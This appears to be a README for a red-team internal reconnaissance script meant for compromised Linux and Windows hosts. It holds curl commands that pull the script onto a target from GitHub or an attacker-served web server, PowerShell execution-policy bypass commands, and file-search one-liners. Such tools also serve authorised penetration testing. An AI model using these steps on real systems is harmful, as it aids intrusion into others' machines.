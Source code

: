 # Internal Reconnaissance Phase

An internal investigation is carried out to gain knowledge about the compromised system. The aim is to obtain information that may be of interest for further action. System-specific tools are often used for this purpose.

This script reveals various information ([see Checks](#checks)) of a Linux system that may be useful in Internal Reconnaissance. For windows systems there is also a powershell script available. Check the [Windows](#windows) part for more information.

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/internal-recon/internal-recon.sh
sh internal-recon.sh
```
Local network:
```sh
# Host
sh internal-recon.sh -w
# Target
curl -LJO <Host>:8000/internal-recon.sh
sh internal-recon.sh
```

### Parameters

```
sh internal-recon.sh -h

Usage: internal-recon.sh [options]

Options:
-h    Show this help message
-w    Serves an local web server for transferring files

Output:
-c    No colours. Without colours, the output can probably be read better
-q    Quiet. No banner and no advisory displayed
```

## Checks

Script collecting information about:  

- System
- Network
- User & groups
- Jobs/tasks
- Services/processes
- Software
- Interesting files
- Container

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Windows

This powershell script is intended to serve as a template and is far from a finished script. 
It does simple internal recon.

### Usage

From github:  
Download powershell script from github and run it:
```
.\internal-recon.ps1
```
Local network:  
Start webserver with -w
```
# Host
sh internal-recon.sh -w
```
Download script from `http://<Host>:8000/` an run it:
```
.\internal-recon.ps1
```

## Results

Results saved to files in current directory and printed to terminal.

### Execution Policy Bypass

If there are problems with the Execution Policy on Windows, try:
```
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
# or
Get-Content .\internal-recon.ps1 | PowerShell.exe -noprofile -
```
or check https://gist.github.com/adithyan-ak/b5d0f2f98784e55f6edee248c85b4c5f for possible bypass commands.

-----

## Additional Information

### Search files and directories in Linux

Examples:
```
# search files and directories by keyword within "/" directory (case insensitive)
sudo find / -iname <keyword> 2>/dev/null

# search directories by keyword within "/" directory (case insensitive)
sudo find / -type d -iname some_directory 2>/dev/null

# search files with specific file extension within "/home" directory (case sensitive)
sudo find /home -type f -name "*.conf"

# search files with executable permission
sudo find /home -perm /a=x
```
